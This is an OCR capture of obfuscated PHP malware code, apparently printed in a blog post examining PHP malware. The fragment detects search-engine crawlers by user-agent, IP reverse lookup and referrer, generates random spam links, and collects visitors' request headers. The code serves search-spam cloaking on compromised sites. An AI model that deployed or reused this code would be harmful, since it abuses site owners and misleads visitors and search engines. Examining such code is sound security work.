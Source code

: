 ```php
			'#Speedy#i',
			'#Teleport\s*Pro#i',
			'#TurtleScanner#i',
			'#User-Agent#i',
			'#voyager#i',
			'#Webalta#i',
			'#WebCopier#i',
			'#WebData#i', '#WebZIP#i', '#Wget#i','#Yandex#i', '#Yanga#i', '#Yeti#i', '#msnbot#i',
			'#spider#i', '#yahoo#i', '#jeeves#i', '#google#i', '#altavista#i','#scooter#i', '#av\s*fetch#i',
			'#asterias#i', '#spiderthread revision#i', '#sqworm#i','#ask#i', '#lycos.spider#i',
			'#infoseek sidewinder#i', '#ultraseek#i', '#polybot#i','#webcrawler#i', '#robozill#i', '#gulliver#i',
			'#architextspider#i', '#yahoo!\s*slurp#i','#charlotte#i', '#ngb#i', '#BingBot#i');
		if (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
			$_glpg7azf = $_SERVER['HTTP_X_FORWARDED_FOR'];
		} elseif (!empty($_SERVER['REMOTE_ADDR'])) {
			$_glpg7azf = $_SERVER['REMOTE_ADDR'];
		} else {
			$_glpg7azf = "";
		}
		if (!empty($_SERVER['HTTP_USER_AGENT']) && (FALSE !== strpos(preg_replace($_h98zt9gf, '-NO-WAY-', $_SERVER['HTTP_USER_AGENT']), '-NO-WAY-'))){
			$_7wgedcji = 1;
		}elseif (empty($_SERVER['HTTP_ACCEPT_LANGUAGE']) || empty($_SERVER['HTTP_REFERER'])){
			$_7wgedcji = 1;
		}elseif (FALSE !== strpos(@gethostbyaddr($_glpg7azf), 'google')) {
			$_7wgedcji = 1;
		}elseif (strpos($_SERVER['HTTP_REFERER'], "google") === FALSE && strpos($_SERVER['HTTP_REFERER'], "yahoo") === FALSE){
			$_7wgedcji = 1;
		}else{
			$_7wgedcji = 0;
		}
		return $_7wgedcji;
	}

	public static function _1vrgw($_pxlvpprx, $_09ezckgm){
		$_jf8s5okd = rand($_pxlvpprx, $_09ezckgm);
		$_kgvo3ed7 = "";
		$_plzk7uci = substr(md5(_abtwpw0::$_gc26w45m . "salt3"), 0, 6);
		for ($_xdn6ddo5=0; $_xdn6ddo5 < $_jf8s5okd; $_xdn6ddo5++){
			$_5oudn589 = _zsop1pp::_zhykw();
			$_kgvo3ed7 .= sprintf("<a href='%s?%s=%s'>%s</a>,\n",_abtwpw0::_b9eit(),$_plzk7uci,urlencode(str_replace(" ", "-", $_5oudn589)), ucwords($_5oudn589));
		}
		return $_kgvo3ed7;
	}

	private static function _coldw(){
		$_wjqehzzq = Array();
		$_wjqehzzq['ip'] = $_SERVER['REMOTE_ADDR'];
		$_wjqehzzq['qs'] = @$_SERVER['HTTP_HOST'] . @$_SERVER['REQUEST_URI'];
		$_wjqehzzq['ua'] = @$_SERVER['HTTP_USER_AGENT'];
		$_wjqehzzq['lang'] = @$_SERVER['HTTP_ACCEPT_LANGUAGE'];
		$_wjqehzzq['ref'] = @$_SERVER['HTTP_REFERER'];
		$_wjqehzzq['enc'] = @$_SERVER['HTTP_ACCEPT_ENCODING'];
		$_wjqehzzq['acp'] = @$_SERVER['HTTP_ACCEPT'];
		$_wjqehzzq['char'] = @$_SERVER['HTTP_ACCEPT_CHARSET'];
		$_wjqehzzq['conn'] = @$_SERVER['HTTP_CONNECTION'];
		return $_wjqehzzq;
	}
	public function __construct(){
```

[c1405681]: /2018/11/07/PHP-Malware-Examination/ "PHP Malware Examination"